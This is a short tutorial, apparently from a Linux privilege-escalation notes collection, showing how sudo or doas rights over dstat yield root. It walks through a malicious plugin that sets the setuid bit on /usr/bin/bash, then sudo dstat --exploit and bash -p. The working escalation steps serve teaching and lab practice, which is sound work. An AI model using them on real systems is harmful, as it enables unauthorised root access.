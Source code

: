 - Sudo dstat command might be vulnerable to privilege escalation (PrivEsc).
- **dstat** is a versatile tool for generating system resource statistics.
- It allows users to create a custom plugin and execute by adding option e.g. **`dstat --myplugin`**.

```bash
sudo -l

(ALL) NOPASSWD: /usr/bin/dstat

```

- If we can execute "**dstat**" command as root, we can gain access to privileges by using our malicious plugin.

1. we need to find **distat directory**

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/dstat/img/Untitled(3).png)

1. in our case we have  **permission** in “**/usr/local/share/dstat**” 

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/dstat/img/Untitled(4).png)

1. Create a plugin called **"dstat_exploit.py"** under **"/usr/local/share/dstat/"**

```python
import os

os.system('chmod +s /usr/bin/bash')
```

1. dstat recognizes plugins under **"/usr/local/share/dstat/"** Check if the above exploit plugin has been added by executing the following command.

```bash
dstat --list | grep exploit
```

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/dstat/img/Untitled(5).png)

1. Now execute **"dstat"** with **“—exploit”** flag (the flag name is determined by the suffix of the file name e.g. **"dstat_<plugin-name>.py"**).

```bash
sudo /usr/bin/dstat --exploit

```

The exploit plugin executed so we enter bash as root.

```bash
bash -p
```

if you you come from doas then use 

```bash
doas -u root /usr/bin/dstat --exploit
```

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/dstat/img/Untitled(6).png)
